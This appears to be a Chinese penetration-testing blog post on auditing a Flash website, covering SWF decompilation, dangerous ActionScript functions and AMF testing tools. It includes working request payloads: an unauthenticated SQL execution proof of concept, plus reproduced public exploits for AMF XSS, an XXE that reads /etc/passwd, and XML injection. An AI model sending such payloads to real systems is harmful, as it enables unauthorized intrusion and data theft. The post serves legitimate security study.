






# 案例-记一次Flash网站渗透测试


&lt;!--more--&gt;

## 背景

在2025年8月的平凡一天，去客户现场进行渗透测试，遇到了一个Flash网站，缘分妙不可言。Flash技术目前已经被淘汰了，关于它的渗透测试技术分享主要集中在2018年之前，近两年也在持续的报出Flash的CVE。

既然遇到了，那就不能白学，把这乱七八糟的东西重新整理下，水一篇文章也还是可以的。参考文章都放在下面，大部分都是英文的，本文中有很多是来自参考文章中的翻译部分。

&gt; [!note]
&gt;
&gt; 为了写文章，查了大量资料去了解相关知识。我在事后查阅资料时，在wooyun drops中发现了大量相关文章，那都是12、13年的东西，没想到还能用上。
&gt;
&gt; 我不想为这个过时的，少见的场景花费太多时间，所以很多地方可能都不到位，请大家谅解。

先讲测试结果
网站基于Flash技术，存在大量 swf 文件，数据交互使用 amf 进行传输。本次涉及的漏洞有：

- SQL注入
- 未授权
- 信息泄露
- 反序列化（疑似）

## Flash技术

&gt;  Flash是一种基于矢量图形的交互式多媒体技术，本身是从Future Splash发展起来的。后被Macromedia公司收购并继续发展其制作动画丰富多采，富于变化性并且相对于其他作图软件文件较小，在网页中无须等它下载完毕就可以显示出来并以流的形式播放，唯一的缺点是需要特定的浏览器插件来支持，目前所有的浏览器都支持Flash，或者说都可以安装Flash的播放器插件。 
&gt;
&gt; Flash包括运行时（虚拟机或者叫播放器），播放文件（SWF），商标，创作工具等诸多意思，ActionScript系FlashPlayer中可以使用的编程语言，也是唯一的编程语言。现在的版本是AS3，性能较以前的AS2有很大提高，而且，语言本身抽象得更像一门编程语言。 

Flash是一个广泛应用于网页动画、游戏开发和移动应用开发的平台，依赖于ActionScript编程语言和Flash Player。ActionScript是一种基于ECMAScript的面向对象编程语言，专门用于开发Flash内容。 文件后缀为 as，和 JavaScript有点像

Flash的安全机制是其架构中最为关键的组成部分之一，它旨在为用户提供一个安全稳定的运行环境。在Flash中，安全机制的理论基础建立在以下几个核心概念上：

- 沙盒模型（Sandbox Model） ：为Flash应用（尤其是来自不同源的应用）提供了隔离的运行环境，限制了应用对本地系统资源的访问，确保了不同应用之间的独立性和安全性。

- 策略文件（Policy Files） ：用于控制应用程序的网络访问权限。策略文件定义了哪些域可以与Flash应用通信，从而限定了应用的网络访问范围。

- 安全证书（Certificates） ：用于验证应用的可信性，确保了Flash应用的来源可靠，防止恶意软件的攻击。


### 基本组件和协议

### ActionScript虚拟机

ActionScript虚拟机是Flash平台上的一个关键组件，它负责解释和执行ActionScript代码。ActionScript是一种基于ECMAScript的
编程语言，专为Flash环境设计，提供了丰富的事件处理、面向对象编程和网络功能。

ActionScript虚拟机的机制主要包括以下几个方面：

- 字节码解释执行：ActionScript代码首先被编译成字节码，虚拟机通过解释器逐行读取并执行这些字节码。
- 即时编译（JIT）技术：在Flash Player的较新版本中引入，可将经常执行的代码段编译为更高效的本地机器码，减少解释执行
  的开销，提高性能。
- 垃圾回收机制：自动管理内存，定期清理不再使用的对象，防止内存泄漏。

### SWF文件格式

SWF 文件格式，是 Adobe Flash Player 所使用的文件格式，广泛应用于网络动画和富媒体内容的展示。动态加载SWF 文件意味着在运行时从服务器下载并展示Flash内容，这对于减少初始加载时间和提供模块化内容至关重要。

SWF文件从一个16字节的文件头开始，包含了关于文件的元数据，比如版本信息、帧尺寸、帧频和帧数。紧随其后的是一系列标记（Tag），这些标记定义了SWF文件的其余部分，如定义形状、文本、位图、声音以及动作脚本代码。


### AMF协议

AMF（Action Message Format）是一种二进制的数据格式，即数据（actionscript里面的Object, Array, Boolean, Number等）经过了序列化成二进制。

- AMF 是 Adobe 提出的二进制序列化协议
- 主要用于 Flash/Flex 和服务器间高效传输数据
- 支持复杂对象、数组、XML、日期等数据类型

有amf0和amf3，当数据流中有0×11标记时，表示这个数据属于AMF3。

AMF基于HTTP协议，大致处理过程：  
获取客户端请求（request） - 服务端反序列化请求 - 处理请求 - 序列化响应（response） - 返回http响应给客户端

相关工具和库

- Adobe Flex SDK
- Java的 BlazeDS
- PHP的 AMFPHP

## SWF渗透

以下是我找到的一些参考文章：

- [探寻Flash SWF中的漏洞](https://xz.aliyun.com/news/3051) —— 先知的翻译文，原文：http://10degres.net/testing-flash-swf/
- [Analysing SWF files for vulnerabilities](https://ret2libc.wordpress.com/2016/04/04/analysing-swf-files-for-vulnerabilities/)
- [Finding vulnerabilities in SWF files (v2.0)](http://media.wix.com/ugd/533dd4_c096c1fa67814318acb84d41a04fb258.pdf)
- [一次 SWF XSS 挖掘和利用](https://cn-sec.com/archives/321701.html)， 乌云 drops


对于SWF文件的渗透测试，我总结为以下步骤：

1. 下载swf文件并保存；
2. 反编译SWF文件，并导出
3. 对导出后的 actionScript 代码进行代码审计
4. 验证漏洞是否可利用

可能存在的漏洞：

- Cross-site scripting ，XSS攻击
- Cross-site data hijacking (XSDH?) ，跨站数据劫持
- Same Origin Method Execution (SOME)  ，同源方式执行攻击
- Open redirections，开放重定向
- Information disclosure，信息泄露，如用户密码凭据、隐藏的url等
- Spoofing/Defacement via loading remote objects ，加载远程对象进行欺诈伪造，我理解类似CSRF那种
- Log forging，日志伪造攻击（大多数情况下不太重要）

### 测试工具

- [ffdec: JPEXS Free Flash Decompiler](https://github.com/jindrapetrik/jpexs-decompiler)： 一个免费开源的 .SWF 反编译软件，在Windows、Linux、Mac上都能用，需要 Java 8或更高版本环境。用于反编译SWF文件，读取源代码并将其完全导出，更多内容见 [wiki文档](https://github.com/jindrapetrik/jpexs-decompiler/wiki)；
-  [Flash Player](https://www.flash.cn/download)： Flash播放器，需在JPEXS中配置。 
- [Flash Player 调试器](https://www.flash.cn/support/debug-downloads)：Flash播放器的debug版本，需在JPEXS中配置。  

上面讲的都是Windows环境下的，如果要在Linux和MAC环境，可以去以下几个地方下载
- [github备份库](https://github.com/Grubsic/Adobe-Flash-Player-Debug-Downloads-Archive)
- [Adobe Flash Player Support Center](https://web.archive.org/web/20220401020702/https://www.adobe.com/support/flashplayer/debug_downloads.html)

自动审计工具：

- [OWASP SWFIntruder](https://code.google.com/archive/p/swfintruder/downloads)：OWASP 推出的 SWF 安全测试工具，可分析 SWF 与服务器的通信（如 AMF 协议交互），检测参数注入、未授权访问等漏洞。 *不太会用，没用明白*
- SWFScan：能反编译 SWF 文件，还内置了安全审计模块，可自动检测 SWF 中的常见漏洞（如 XSS 风险、本地存储滥用、不安全的 AMF 通信等）。支持直接分析 SWF 二进制文件，适合没有源代码时的黑盒审计，能识别危险函数调用和配置缺陷。*原地址失效，目前能找到的[下载地址在这](https://www.52pojie.cn//forum.php?mod=viewthread&amp;tid=127768&amp;highlight=SWFScan)*


### 测试过程

#### **1、下载swf文件**

我日常使用Burp进行渗透测试，用其他的代理抓包工具效果也是一样的。

抓包找到下载swf文件的连接，在Burp中右键另存为，保存到本地的xxx.swf文件。也可以使用wget/curl直接下载

```sh
wget &lt;url&gt;
curl &lt;url&gt; --output xxx.swf
```

根据网站架构，有些可能是一个主界面swf去加载子模块swf，有些就是单独的swf，可能要下载的文件比较多。

#### **2、反编译 swf 文件**

使用 JPEXS Free Flash Decompiler（ffdec）打开该swf文件进行反编译。

反编译后页面如下，软件默认是英文页面，可以在 “setting” - “change language” 处修改为简中。



**导出文件**

虽然 ffdec 支持查看和修改 actionScript 代码文件，但是还是建议将文件导出到本地统一进行审计比较方便。

导出方式非常朴素，`Ctrl &#43; A` 全选后，右键导出已选，保存到指定目录中

也可以通过导出功能，导出为 VS Code 工程 或 IDEA工程，区别应该不大。



#### 3、代码审计

**自动审计**

可通过 swfscan 进行代码审计

安装swfscan需要先安装 `.NET Framework 2.0`，



可以通过 【控制面板】-【程序】-【启动或关闭 Windows功能】-选择启用`.NET Framework 3.5（包括.NET 2.0和3.0）`。



SWFScan用法：

1. 选择相应的swf文件本地位置或URL
2. 点击 Get 对swf文件进行反编译
3. 点击Analyze进行代码审计，分析可能存在的漏洞，漏洞统计数据显示在右下方，如图：




**手动审计**

1. 查找敏感信息：密码hash、AccessToken、AccessKey、敏感词、API接口、URI等信息

   参考文章中有用 [extract-endpoints](https://github.com/gwen001/extract-endpoints) 的： 这个 PHP 工具会对文件或递归地对目录应用正则表达式，以提取端点。这对于从 JavaScript 文件中查找 API 网址非常有用。但是，所有类型的源文件都可以被解析（HTML、PHP、JavaScript、Java 等）。

   我用的是自己基于 HAE 正则写的小脚本，用来挖掘敏感信息的。

2. 查找危险函数

   ```
   loadVariables()
   getURL()
   getURLBlankVar()
   getURLParentVar()
   getURLJSParam()
   loadMovie()
   loadMovieVar()
   loadMovieNum()
   FScrollPane.loadScrollContent()
   LoadVars.load 
   LoadVars.send 
   XML.load ( &#39;url&#39; )
   XML.sendAndLoad ( &#39;url&#39; )
   LoadVars.load ( &#39;url&#39; )
   LoadVars.send ( &#39;url&#39; ) 
   Sound.loadSound( &#39;url&#39; , isStreaming );
   NetStream.play( &#39;url&#39; );
   flash.external.ExternalInterface.call(_root.callback)
   externalInterface.addCallback
   htmlText
   htmlVar
   loadClip
   AddDLL
   ```

3. 跟着函数找调用路径

#### 4、漏洞验证

对代码审计的结果进行验证，其实也可以算作代审中的一步。

通过Flash浏览器，配合 ffdec 的调试功能进行验证。


## AMF渗透

[[AMF渗透测试]]

AMF（Action Message Format）是一种二进制的数据格式，即数据（actionscript里面的Object, Array, Boolean, Number等）经过了序列化成二进制。

- AMF 是 Adobe 提出的二进制序列化协议
- 主要用于 Flash/Flex 和服务器间高效传输数据
- 支持复杂对象、数组、XML、日期等数据类型

AMF基于HTTP协议，服务端大致处理过程： 

1. HTTP Request：服务端接收到来自客户端的http请求（request），并从中获取请求体内容（AMF数据）
2. 反序列化：服务端将请求体内容（AMF数据）反序列化为 ActionScript 对象
3. 处理请求：服务端根据请 ActionScript 对象处理请求，调用执行相应的服务、方法，根据相应的服务、方法的定义，返回执行结果（也是ActionScript 对象）
4. 序列化：将处理结果（ActionScript 对象）序列化为响应体内容（AMF数据）
5. HTTP Response：服务器返回http响应（response）给客户端


### 测试工具

主要是对AMF数据进行序列化反序列化的用途，下面是一些Burp的插件

- [AMFDSer-ngng](https://github.com/nccgroup/AMFDSer-ngng)  
- [AMFDserBurp2020-12](https://github.com/ConnorSnee/AMFDserBurp2020-12) 用于让Burp与Flash应用程序协同工作的Burp扩展。
- [BurpAMFDser](https://github.com/khai-tran/BurpAMFDser)：它借助[Xtream库](http://xstream.codehaus.org/)实现AMF请求和响应与XML之间的反序列化。还使用了Kenneth Hill的[JMeter源代码](https://github.com/steeltomato/jmeter-amf)的一部分来进行自定义AMF反序列化
- [blazer](https://github.com/ikkisoft/blazer)：一款具有模糊测试功能的自定义AMF消息生成器，作为Burp Suite插件可用于生成和模糊测试自定义AMF消息。    *测试过程中，插件没正常运行*

MFDser系列我在使用中都遇到了相同的问题，即有些数据包 反序列化解码返回为空，工具会出现报异常。类似 [相关issue:](https://github.com/nccgroup/AMFDSer-ngng/issues/2)  

反序列化并编码为xml的效果


&gt; [!note]
&gt;
&gt; 普遍这些工具都比较老，现在是2025年了，Flash、AMF大概在2018年比较流行，这些插件可能也有一些适配性上的问题。
&gt;
&gt; 至于要不要对这些插件进行优化，再说吧……(🕊咕咕咕~)


### 实战案例

首先要理解AMF是一种序列化后的数据传输格式，所以存在什么漏洞取决于传递了什么数据，它和平时常用的`key=value`模式本质上是一样的，因此很多漏洞也是相近的。

部分案例见这篇参考文章：[谈谈AMF网站的渗透测试](https://xz.aliyun.com/news/7994)：用户名枚举、敏感信息泄露、SQL注入、未授权访问、文件删除。

接下去我挑一下我遇到的漏洞：

&gt; [!warning]
&gt;
&gt; *坏了，我的测试记录上都是水印，等我脱敏下*
&gt;
&gt; 其实写到这的时候感觉没啥好写的，AMF的难点就在对传输数据进行解码，后面的漏洞都比较普通，和正常Web一样。

#### 未授权SQL执行

这个漏洞很好理解，网站定义了一个接口能执行SQL语句，AMF数据解码后就可以任意修改了，没有任何限制，相当于接管了SQL执行功能。而且这个功能可以未授权访问，删除Cookie、Token等认证字段后也能获取到数据。



POC 反序列化解码后如下：

```xml
POST /AtomLocal/messagebroker/amf HTTP/1.1
Host: xxxxxxx
Connection: close
Content-Length: 842

&lt;ActionMessage&gt;
  &lt;version&gt;3&lt;/version&gt;
  &lt;headers/&gt;
  &lt;bodies&gt;
    &lt;MessageBody&gt;
      &lt;targetURI&gt;null&lt;/targetURI&gt;
      &lt;responseURI&gt;null&lt;/responseURI&gt;
      &lt;data class=&#34;object-array&#34;&gt;
        &lt;RemotingMessage&gt;
          &lt;destination&gt;manager&lt;/destination&gt;
          &lt;messageId&gt;BA53BCCF-2AD0-1027-D6C2-9C5702AB6F35&lt;/messageId&gt;
          &lt;timestamp&gt;0&lt;/timestamp&gt;
          &lt;timeToLive&gt;0&lt;/timeToLive&gt;
          &lt;operation&gt;searchByParam&lt;/operation&gt;
          &lt;parameters&gt;
            &lt;ASObject serialVer=&#34;1&#34; objClass=&#34;com.fsc.base.model.lookup.LookupJsonModel&#34;&gt;
              &lt;entry&gt;
                &lt;string&gt;key&lt;/string&gt;
                &lt;string&gt;select banner from v$version&lt;/string&gt;
              &lt;/entry&gt;
            &lt;/ASObject&gt;
          &lt;/parameters&gt;
        &lt;/RemotingMessage&gt;
      &lt;/data&gt;
    &lt;/MessageBody&gt;
  &lt;/bodies&gt;
&lt;/ActionMessage&gt;
```

对这个请求体的一些解释：

&gt; 这段 HTTP 请求包是基于**AMF（Action Message Format）协议**的远程调用消息，通常用于 Flex/Flash 客户端与服务器之间的通信。它本质上是一个序列化后的 ActionScript 对象，用于调用服务器端的方法并传递参数，具体解析如下：
&gt;
&gt; ##### 整体结构说明
&gt;
&gt; 整个消息以`&lt;ActionMessage&gt;`为根节点，符合 AMF3 协议的消息格式规范，包含版本信息、消息头、消息体三部分：
&gt;
&gt; - `&lt;version&gt;3&lt;/version&gt;`：标识使用 AMF3 协议（AMF 有 AMF0 和 AMF3 两个版本，3 版本支持更多数据类型）。
&gt; - `&lt;headers/&gt;`：消息头部分，此处为空（可用于传递附加信息如认证令牌、超时设置等）。
&gt; - `&lt;bodies&gt;`：消息体部分，包含实际的远程调用内容（一个或多个`&lt;MessageBody&gt;`）。
&gt;
&gt; ##### 核心内容解析（`&lt;MessageBody&gt;`部分）
&gt;
&gt; 1. **`&lt;targetURI&gt;`和`&lt;responseURI&gt;`**
&gt;    - `targetURI`：指定服务器端的目标处理地址，此处为`null`（通常由 AMF 通道配置自动填充）。
&gt;    - `responseURI`：指定服务器返回结果的回调地址，此处为`null`（客户端会自动处理返回结果的路由）。
&gt; 2. **`&lt;data class=&#34;object-array&#34;&gt;`**
&gt;    包含实际的远程调用消息对象，这里是一个`RemotingMessage`（远程调用消息），用于定义具体的服务调用信息：
&gt;    - `&lt;destination&gt;` ：指定服务器端的 “目的地”， 即要调用的服务标识，对应名为`manager`的服务组件（如 Spring 的 Bean 或 BlazeDS 的 Service）。
&gt;    - `&lt;messageId&gt;  &lt;/messageId&gt;`：消息唯一标识（UUID），用于客户端匹配请求与返回结果（避免异步调用时的混乱）。
&gt;    - `&lt;timestamp&gt;0&lt;/timestamp&gt;` ：消息创建时间戳（此处为`0`，可能未设置）。
&gt;    - `&lt;timeToLive&gt;0&lt;/timeToLive&gt;` ：消息有效期（毫秒，`0`表示永不过期）。
&gt;    - `&lt;operation&gt;`： 指定要调用的服务器端方法名，这里是调用`manager`服务中的`searchByParam`方法。
&gt;    - `&lt;parameters&gt;`：传递给`searchByParam`方法的参数
&gt;      此处参数是一个`ASObject`（ActionScript 对象），类型为`com.fsc.base.model.lookup.LookupJsonModel`，包含一个键值对：
&gt;      - `key: &#34;select username from all_users&#34;`：即参数对象中`key`字段的值为 SQL 查询语句。
&gt;
&gt; ##### 该请求的实际含义
&gt;
&gt; 客户端通过 AMF 协议向服务器发送了一个远程调用请求，核心意图是：
&gt; **调用服务器端`manager`服务的`searchByParam`方法，传入一个`LookupJsonModel`对象作为参数，该对象的`key`属性值为 SQL 语句`select username from all_users`。**


除了这个`manager`服务中的`searchByParam`方法，还尝试Fuzz枚举更多的方法来挖掘漏洞，但是没能成功，比较可惜。


#### 反序列化(CVE-2017-3066)

Adobe Flash的反序列化漏洞挺多的，遇到AMF传输的都可以试下各种反序列化。

这个漏洞是基于 [Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution（CVE-2017-3066）](https://www.exploit-db.com/exploits/43993) ，简单修改下poc 即可利用，成功收到RMI回连信息，但是后续命令执行遇到问题。

因为时间关系，最终也没完全利用成功。


### 历史漏洞

#### XSS

以下漏洞都不是自己挖的，来自网络，只是作为补充

[BMC Dashboards 7.6.01 - Cross-Site Scripting / Information Disclosure](https://www.exploit-db.com/exploits/35707)

Multiple XSS as the AMF stream is unfiltered

```http
POST /bsmdashboards/messagebroker/amfsecure HTTP/1.1
Content-Type: application/x-amf
Host: target-domain.foo
Content-Length: 462

........null../58.....    ..
.COflex.messaging.messages.RemotingMessage.timestamp.headers.operation

bodysource.remotePassword.remoteUsername.parameters.messageId.timeToLive.clientId.destination.........
#.
DSId.DSEndpoint.IFDCEEFC2-F318-1B37-7F3A-B438E60525E0..bsd-secure-amf...getUndefinedDataSources&lt;script&gt;alert(1)&lt;/script&gt;
   ..
.qcom.bmc.bsm.dashboards.services.facade.RequestParameters.
#.    name.version..208Archive..1.0...
.Cflex.messaging.io.ArrayCollection    ..
..I3DDF906B-55F2-5E38-38C1-6A08D1AC077B..........IFDDDB883-6F0C-D935-5E7B-25CDF25C3538.-dashboardArchiveFacade
```

```http
HTTP/1.1 200 OK
Date: Sat, 02 Oct 2010 00:15:35 GMT
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
Content-Type: application/x-amf
Content-Length: 4651

......../58/onStatus.......
.SIflex.messaging.messages.ErrorMessage.headers.rootCause
body.correlationId.faultDetail.faultString.clientId.timeToLive.destination.timestamp.extendedData.faultCode.messageId
..
..acom.bmc.bsm.dashboards.util.logging.BSDException.message
guid!localizedMessage.cause.arguments.priority.traceback.errorCode.causeSummary.System
error. Contact your system administrator for assistance.
.Kcom.bmc.bsm.dashboards.util.guid.Guid!uniqueIdentifier.AdZZZZZZZZJIiCvq53w9q0gerq4j8y0oq.0
.s?flex.messaging.MessageException.errorMessage.&#34;$)logStackTraceEnablednumber

codelogged.statusCode..-defaultLogMessageIntro.details#preferredLogLevel&#43;rootCauseErrorMessage
.
......)Method &#39;getUndefinedDataSources&lt;script&gt;alert(1)&lt;/script&gt;&#39; not
found...1Cannot invoke method &#39;getUndefinedDataSourcesfdd4d
```

攻击者或许能够使点击了基于 Remedy 知识管理网站链接的用户在其浏览器中执行恶意脚本代码。此类代码将在目标域的安全环境内运行。这种类型的攻击可能导致目标网站的非持久性篡改，或者将机密信息（即会话 ID）重定向到未经授权的第三方。利用此漏洞无需进行身份验证。

#### XXE&amp;XML注入

[Adobe (Multiple Products) - XML External Entity / XML Injection](https://www.exploit-db.com/exploits/11529)

这几漏洞是http 通道的，严格来说，不能算是AMF下的案例，但是确实也是 Flex 框架的，暂时放这吧，本质是一样的。

**XXE**

```xml
POST /samples/messagebroker/http HTTP/1.1
Content-type: application/x-amf

&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;
&lt;!DOCTYPE test [ &lt;!ENTITY x3 SYSTEM &#34;/etc/passwd&#34;&gt; ]&gt;
&lt;amfx ver=&#34;3&#34; xmlns=&#34;http://www.macromedia.com/2005/amfx&#34;&gt;
  &lt;body&gt;
    &lt;object type=&#34;flex.messaging.messages.CommandMessage&#34;&gt;
      &lt;traits&gt;
        &lt;string&gt;body&lt;/string&gt;&lt;string&gt;clientId&lt;/string&gt;&lt;string&gt;correlationId&lt;/string&gt;
        &lt;string&gt;destination&lt;/string&gt;&lt;string&gt;headers&lt;/string&gt;&lt;string&gt;messageId&lt;/string&gt;
        &lt;string&gt;operation&lt;/string&gt;&lt;string&gt;timestamp&lt;/string&gt;&lt;string&gt;timeToLive&lt;/string&gt;
      &lt;/traits&gt;
      &lt;object&gt;&lt;traits /&gt;&lt;/object&gt;
      &lt;null /&gt;&lt;string /&gt;&lt;string /&gt;
      &lt;object&gt;
        &lt;traits&gt;
          &lt;string&gt;DSId&lt;/string&gt;&lt;string&gt;DSMessagingVersion&lt;/string&gt;
        &lt;/traits&gt;
        &lt;string&gt;nil&lt;/string&gt;&lt;int&gt;1&lt;/int&gt;
      &lt;/object&gt;
      &lt;string&gt;&amp;x3;&lt;/string&gt;
			&lt;int&gt;5&lt;/int&gt;&lt;int&gt;0&lt;/int&gt;&lt;int&gt;0&lt;/int&gt;
    &lt;/object&gt;
  &lt;/body&gt;
&lt;/amfx&gt;
```

响应体

```xml
&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;
&lt;amfx ver=&#34;3&#34;&gt;&lt;header name=&#34;AppendToGatewayUrl&#34; mustUnderstand=&#34;true&#34;&gt;
&lt;string&gt;;jsessionid=2191D3647221B72039C5B05D38084A42&lt;/string&gt;&lt;/header&gt;
&lt;body targetURI=&#34;/onResult&#34; responseURI=&#34;&#34;&gt;
&lt;object type=&#34;flex.messaging.messages.AcknowledgeMessage&#34;&gt;
&lt;traits&gt;&lt;string&gt;timestamp&lt;/string&gt;&lt;string&gt;headers&lt;/string&gt;
&lt;string&gt;body&lt;/string&gt;&lt;string&gt;correlationId&lt;/string&gt;
&lt;string&gt;messageId&lt;/string&gt;&lt;string&gt;timeToLive&lt;/string&gt;
&lt;string&gt;clientId&lt;/string&gt;&lt;string&gt;destination&lt;/string&gt;
&lt;/traits&gt;&lt;double&gt;1.257387140632E12&lt;/double&gt;&lt;object&gt;
&lt;traits&gt;&lt;string&gt;DSMessagingVersion&lt;/string&gt;
&lt;string&gt;DSId&lt;/string&gt;&lt;/traits&gt;&lt;double&gt;1.0&lt;/double&gt;
&lt;string&gt;BDE929FE-270D-3B56-1061-616E8B938429&lt;/string&gt;
&lt;/object&gt;&lt;null/&gt;&lt;string&gt;root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
[...]
```

**XML注入**

```http
POST /samples/messagebroker/http HTTP/1.1
Content-type: application/x-amf

&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;
&lt;amfx ver=&#34;3&#34;&gt;&lt;body targetURI=&#34;&#34; responseURI=&#34;d&#34; injectedattr=&#34;anything&#34;&gt;&lt;null/&gt;
&lt;/body&gt;&lt;/amfx&gt;
```

响应体

```xml
&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;
&lt;amfx ver=&#34;3&#34;&gt;&lt;body targetURI=&#34;d&#34; injectedattr=&#34;anything&#34; responseURI=&#34;&#34;&gt;&lt;null/&gt;&lt;/body&gt;&lt;/amfx&gt;&lt;/body&gt;&lt;/amfx&gt;
```

#### XXE(CVE-2015-3269)

